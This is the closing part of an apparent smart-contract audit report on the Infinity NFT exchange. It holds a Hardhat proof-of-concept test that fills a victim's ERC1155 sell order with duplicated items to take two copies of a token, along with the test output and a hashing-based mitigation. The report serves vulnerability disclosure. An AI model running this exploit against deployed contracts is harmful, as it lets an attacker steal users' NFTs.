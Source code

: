 ```js
        extraParams
      };
      const sellOrder = await prepare1155OBOrder(user, chainId, victim, order, infinityExchange);
      expect(sellOrder).to.not.be.undefined;

      // form matching nfts
      const nfts_ = [
        {
          collection: mock1155Contract1.address,
          tokens: [{ tokenId: 0, numTokens: 1 }]
        },
        {
          collection: mock1155Contract1.address,
          tokens: [{ tokenId: 0, numTokens: 1 }]
        }
      ];

      // approve currency
      let salePrice = getCurrentSignedOrderPrice(sellOrder);
      await approveERC20(hacker.address, token.address, salePrice, hacker, infinityExchange.address);

      // perform exchange
      await infinityExchange.connect(hacker).takeOrders([sellOrder], [nfts_]);

      // owners after sale
      // XXX: note that the user's intention is to send mock1155Contract1 x 1 + mock1155Contract2 x 1
      // When mock1155Contract1 is much more expensive than mock1155Contract2, user suffers from huge loss
      expect(await mock1155Contract1.balanceOf(hacker.address, 0)).to.equal(2);
    });
  });
});
```

And run 
```bash
$ npx hardhat test --grep PoC

  PoC
    StealERC1155ByDuplicateItems
      ✓ Passed test denotes successful hack
```

Note that the passed test denotes a successful hack.

## Tools Used
Manual inspection.

## Recommended Mitigation Steps
I would suggest a more gas-consuming approach by hashing all the items and putting them into a list. Then checking whether the lists match.

